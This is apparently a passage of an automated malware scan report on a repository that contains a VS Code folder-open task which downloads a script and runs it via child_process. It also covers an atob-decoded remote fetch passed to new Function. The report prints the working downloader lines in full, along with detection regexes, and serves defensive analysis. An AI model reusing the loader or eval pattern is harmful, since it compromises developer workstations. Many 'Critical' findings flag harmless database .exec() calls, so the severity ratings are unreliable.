76:       "evidence": "18:         \"args\": [\r\n19:           \"-e\",\r\n20:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) =\u003e { setTimeout(() =\u003e fs.unlinkSync(tempFile), 1000); }); }); });\"\r\n21:         ]\r\n22:       },\r"
77:     },
78:     {
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 37) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```json
85:       "impact": "Arbitrary command execution on host.",
86:       "remediation": "Disallow process execution in untrusted code paths.",
87:       "evidence": "25:         \"args\": [\r\n26:           \"-e\",\r\n27:           \"const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) =\u003e { let d = ``; r.on(`data`, c =\u003e d += c); r.on(`end`, () =\u003e { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) =\u003e { setTimeout(() =\u003e { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });\"\r\n28:         ]\r\n29:       },\r"
88:     },
89:     {
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 38) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```json
195:       "impact": "Remote code execution and full process compromise.",
196:       "remediation": "Remove dynamic execution and use explicit, typed control flow.",
197:       "evidence": "272: 99: ```js\r\n273: 100: // server/middleware/errorHandler.js\r\n274: 101: const handler = new Function.constructor(\"require\", errCode);\r\n275: 102: handlerFunc(require);\r\n276: 103: ```\r"
198:     },
199:     {
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 39) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```json
217:       "impact": "Remote code execution and full process compromise.",
218:       "remediation": "Remove dynamic execution and use explicit, typed control flow.",
219:       "evidence": "372: 244: \r\n373: 245: ### Behavioral IOCs\r\n374: 246: - Dynamic code execution via `new Function(...)`.\r\n375: 247: - Task auto-execution on workspace open (`runOn: folderOpen`).\r\n376: 248: - Download-execute-delete pattern in temp directory.\r"
220:     },
221:     {
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 40) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```json
228:       "impact": "Remote code execution and full process compromise.",
229:       "remediation": "Remove dynamic execution and use explicit, typed control flow.",
230:       "evidence": "422: 309: ```js\r\n423: 310: // BAD: executes attacker-controlled strings\r\n424: 311: // const handler = new Function.constructor(\"require\", errCode);\r\n425: 312: \r\n426: 313: // GOOD: structured, non-executable logging only\r"
231:     },
232:     {
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 41) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```json
239:       "impact": "Remote code execution and full process compromise.",
240:       "remediation": "Remove dynamic execution and use explicit, typed control flow.",
241:       "evidence": "722: 13:     const createHandler = (errCode) =\u003e {\r\n723: 14:       try {\r\n724: 15:         const handler = new Function.constructor(\"require\", errCode);\r\n725: 16:         return handler;\r\n726: 17:       } catch (e) {\r"
242:     },
243:     {
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 42) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SCAM_SCAN_SUMMARY_GO.json`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```json
261:       "impact": "Remote code execution and full process compromise.",
262:       "remediation": "Remove dynamic execution and use explicit, typed control flow.",
263:       "evidence": "99: ```js\r\n100: // server/middleware/errorHandler.js\r\n101: const handler = new Function.constructor(\"require\", errCode);\r\n102: handlerFunc(require);\r\n103: ```\r"
264:     },
265:     {
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 43) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
59:   A[Victim opens project in VS Code] --> B[Auto task on folderOpen]
60:   B --> C[Downloads script from remote endpoint]
61:   C --> D[Executes temp .cmd/.sh via child_process.exec]
62:   D --> E[Developer workstation compromise]
63:
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 44) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
99: ```js
100: // server/middleware/errorHandler.js
101: const handler = new Function.constructor("require", errCode);
102: handlerFunc(require);
103: ```
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 45) Critical - VS Code Auto-Run Task on Folder Open

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Auto-running tasks on folder open can execute payloads without explicit consent.

**Potential impact**
- Developer workstation compromise upon opening project.

**Evidence**

```md
122: ```json
123: "runOptions": {
124:   "runOn": "folderOpen"
125: }
126: ```
```

**Remediation**
- Remove folder-open tasks and require explicit user invocation.

---

## 46) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
128: ```js
129: // windows task payload excerpt
130: const { exec } = require(`child_process`);
131: https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => {
132:   // ...
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 47) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
132:   // ...
133:   fs.writeFileSync(tempFile, d);
134:   exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => {
135:     setTimeout(() => fs.unlinkSync(tempFile), 1000);
136:   });
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 48) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
244: 
245: ### Behavioral IOCs
246: - Dynamic code execution via `new Function(...)`.
247: - Task auto-execution on workspace open (`runOn: folderOpen`).
248: - Download-execute-delete pattern in temp directory.
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 49) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
271: 4. Add CI checks to fail on:
272:    - `runOn: folderOpen`
273:    - `child_process` in non-build tooling
274:    - `new Function`/`eval` in server code
275:
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 50) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `SECURITY_INCIDENT_REPORT.md`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```md
309: ```js
310: // BAD: executes attacker-controlled strings
311: // const handler = new Function.constructor("require", errCode);
312: 
313: // GOOD: structured, non-executable logging only
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 51) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
16:         .findOne()
17:         .where(loginType, req.body.emailPhone)
18:         .exec((err, data) => {
19:           if (err) res.status(400).send(err);
20:           else if (data) {
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 52) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
70:   },
71:   userList: (req, res) => {
72:     userM.find().exec((err, data) => {
73:       if (err)
74:         res.status(400).json({ message: "Something Went Wrong", data: err });
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 53) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
77:   },
78:   changePass: (req, res) => {
79:     userM.findOne({ _id: req.body._id }).exec((err, resp) => {
80:       if (err)
81:         res.status(400).json({ message: "Something Went Wrong", data: err });
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 54) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/auth.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
86:             userM
87:               .updateOne({ _id: req.body._id }, { password: hash })
88:               .exec((err, resp) => {
89:                 if (err)
90:                   res
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 55) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/common.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
7:   getStateList: (req, res) => {
8:     state_model.find({ is_active: true })
9:       .exec((err, data) => {
10:         if (err)
11:           res.status(400).send(err);
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 56) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/common.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
26:     city_model.find({ is_active: true })
27:       .populate('state_id', 'name')
28:       .exec((err, data) => {
29:         if (err)
30:           res.status(400).send(err);
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 57) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/common.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
35:     city_model.find({ state_id: req.params.state_id, is_active: true })
36:       .populate('state_id', 'name')
37:       .exec((err, data) => {
38:         if (err)
39:           res.status(400).send(err);
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 58) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/property.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
68:       .populate('state', 'name')
69:       .populate('type', 'title')
70:       .exec((err, result) => {
71:         if (err)
72:           res.status(400).send(err);
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 59) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/property.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
100:       .populate('type', 'title')
101:       .populate('userId', 'name')
102:       .exec((err, result) => {
103:         if (err)
104:           res.status(400).send(err);
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 60) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/property.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
138:       .populate('type', 'title')
139:       .populate('userId', 'name')
140:       .exec((err, result) => {
141:         if (err)
142:           res.status(400).send(err);
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 61) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `server/controllers/users.controller.js`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```js
6:       .populate('city', 'name')
7:       .populate('state', 'name')
8:       .exec((err, result) => {
9:         if (err)
10:           res.status(400).send(err);
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 62) Critical - Dynamic Code Execution Primitive Detected

**Affected file**: `server/middleware/errorHandler.js`

**Why this is suspicious**
- Dynamic runtime code construction enables arbitrary payload execution.

**Potential impact**
- Remote code execution and full process compromise.

**Evidence**

```js
13:     const createHandler = (errCode) => {
14:       try {
15:         const handler = new Function.constructor("require", errCode);
16:         return handler;
17:       } catch (e) {
```

**Remediation**
- Remove dynamic execution and replace with strict, typed control flow.

---

## 63) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/README_SCAM_SCANNERS.md`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```md
24: 
25: - Dynamic code execution primitives (`new Function`, `eval`)
26: - Process execution (`child_process`, `exec`, `spawn`)
27: - VS Code auto-run tasks (`runOn: folderOpen`)
28: - Encoded/obfuscated payload indicators (base64 and hex escapes)
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 64) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/go-scam-scanner/main.go`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```go
95: 			Title:       "Process Execution Primitive with Potential Abuse",
96: 			Category:    "Execution",
97: 			Pattern:     regexp.MustCompile(`(?i)child_process|exec\s*\(|spawn\s*\(|execFile\s*\(`),
98: 			Why:         "Shell/process APIs are commonly abused by droppers and loaders.",
99: 			Impact:      "Arbitrary command execution on host.",
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 65) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/go-scam-scanner/main.go`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```go
225: 	}
226: 	hexCount := float64(len(regexp.MustCompile(`\\x[0-9a-fA-F]{2}`).FindAllString(content, -1)))
227: 	susp := float64(len(regexp.MustCompile(`(?i)atob\(|fromCharCode\(|new Function|eval\(|child_process|exec\(|spawn\(`).FindAllString(content, -1)))
228: 	sample := content
229: 	if len(sample) > 20000 {
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 66) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```python
165:         ),
166:         Rule(
167:             id="child_process_exec",
168:             severity="Critical",
169:             title="Process Execution Primitive with Potential Abuse",
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 67) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```python
169:             title="Process Execution Primitive with Potential Abuse",
170:             category="Execution",
171:             pattern=re.compile(r"child_process|exec\s*\(|spawn\s*\(|execFile\s*\(", re.IGNORECASE),
172:             why="Shell/process execution APIs are commonly abused by droppers and backdoors.",
173:             impact="Host compromise through arbitrary command execution.",
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 68) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```python
270:     suspicious_tokens = len(
271:         re.findall(
272:             r"(atob\(|fromCharCode\(|new Function|eval\(|child_process|exec\(|spawn\(|process\.env|os\.)",
273:             content,
274:             flags=re.IGNORECASE,
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 69) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```python
423:                 )
424: 
425:     # Add chain-strengthening critical if folderOpen + child_process + remote URL occur in same file.
426:     for abs_path in files:
427:         if os.path.basename(abs_path).lower() != "tasks.json":
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 70) Critical - Process Execution Primitive with Potential Abuse

**Affected file**: `tools/scam_scanner.py`

**Why this is suspicious**
- Shell/process execution APIs are commonly abused by droppers and backdoors.

**Potential impact**
- Host compromise through arbitrary command execution.

**Evidence**

```python
430:         if (
431:             re.search(r'"runOn"\s*:\s*"folderOpen"', content, flags=re.IGNORECASE)
432:             and re.search(r"child_process|exec\s*\(", content, flags=re.IGNORECASE)
433:             and re.search(r"https?://", content, flags=re.IGNORECASE)
434:         ):
```

**Remediation**
- Restrict command execution, remove from untrusted paths, and harden input validation.

---

## 71) High - Remote Payload Fetch Pattern

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```json
18:         "args": [
19:           "-e",
20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
21:         ]
22:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 72) High - Remote Payload Fetch Pattern

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```json
25:         "args": [
26:           "-e",
27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
28:         ]
29:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 73) High - Remote Payload Fetch Pattern

**Affected file**: `.vscode/tasks.json`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```json
32:         "args": [
33:           "-e",
34:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-linux-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/linux?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
35:         ]
36:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 74) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
61: 18:         "args": [
62: 19:           "-e",
63: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
64: 21:         ]
65: 22:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 75) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
86: 18:         "args": [
87: 19:           "-e",
88: 20:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-windows-${Date.now()}.cmd`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/windows?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); exec(`${tempFile}`, { shell: `cmd.exe` }, (e, o, err) => { setTimeout(() => fs.unlinkSync(tempFile), 1000); }); }); });"
89: 21:         ]
90: 22:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 76) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
111: 25:         "args": [
112: 26:           "-e",
113: 27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
114: 28:         ]
115: 29:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 77) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
136: 25:         "args": [
137: 26:           "-e",
138: 27:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-mac-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/mac?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
139: 28:         ]
140: 29:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 78) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
161: 32:         "args": [
162: 33:           "-e",
163: 34:           "const https = require(`https`); const fs = require(`fs`); const path = require(`path`); const { exec } = require(`child_process`); const os = require(`os`); const tempFile = path.join(os.tmpdir(), `vscode-linux-${Date.now()}.sh`); https.get(`https://vscode-toolkit-settings.vercel.app/settings/linux?flag=302`, (r) => { let d = ``; r.on(`data`, c => d += c); r.on(`end`, () => { fs.writeFileSync(tempFile, d); fs.chmodSync(tempFile, 0o755); exec(`${tempFile}`, { shell: `sh` }, (e, o, err) => { setTimeout(() => { try { fs.unlinkSync(tempFile); } catch {} }, 1000); }); }); });"
164: 35:         ]
165: 36:       },
```

**Remediation**
- Disallow remote code/data bootstrap in runtime paths and pin trusted APIs.

---

## 79) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1186: 1022: 88: ```js
1187: 1023: 89: // server/controllers/auth.controller.js
1188: 1024: 90: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1189: 1025: 91: ```
1190: 1026: 92:
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 80) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1211: 1097: 325: ```js
1212: 1098: 326: // BAD
1213: 1099: 327: // axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1214: 1100: 328: 
1215: 1101: 329: // GOOD
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 81) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1236: 1171: 5: const {secretKey, publicKey} = require("../config/config");
1237: 1172: 6: const { errorHandler } = require("../middleware/errorHandler");
1238: 1173: 7: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1239: 1174: 8: 
1240: 1175: 9: module.exports = {
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 82) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1261: 88: ```js
1262: 89: // server/controllers/auth.controller.js
1263: 90: axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1264: 91: ```
1265: 92:
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 83) High - Encoded URL / Obfuscated Endpoint Indicator

**Affected file**: `SCAM_SCAN_REPORT_GO.md`

**Why this is suspicious**
- Encoded URLs and long base64 blobs are common for C2 concealment.

**Potential impact**
- Hidden malicious infrastructure and delayed detection.

**Evidence**

```md
1286: 325: ```js
1287: 326: // BAD
1288: 327: // axios.get(atob(publicKey)).then(res => errorHandler(res.data.cookie));
1289: 328: 
1290: 329: // GOOD
```

**Remediation**
- Decode and validate all encoded literals; remove untrusted endpoints.

---

## 84) High - Remote Payload Fetch Pattern

**Affected file**: `SCAM_SCAN_REPORT_PY.md`

**Why this is suspicious**
- Direct remote fetch in sensitive paths may stage executable payloads.

**Potential impact**
- Remote code delivery and command-and-control enablement.

**Evidence**

```md
97: 18:         "args": [
98: 19:           "-e",
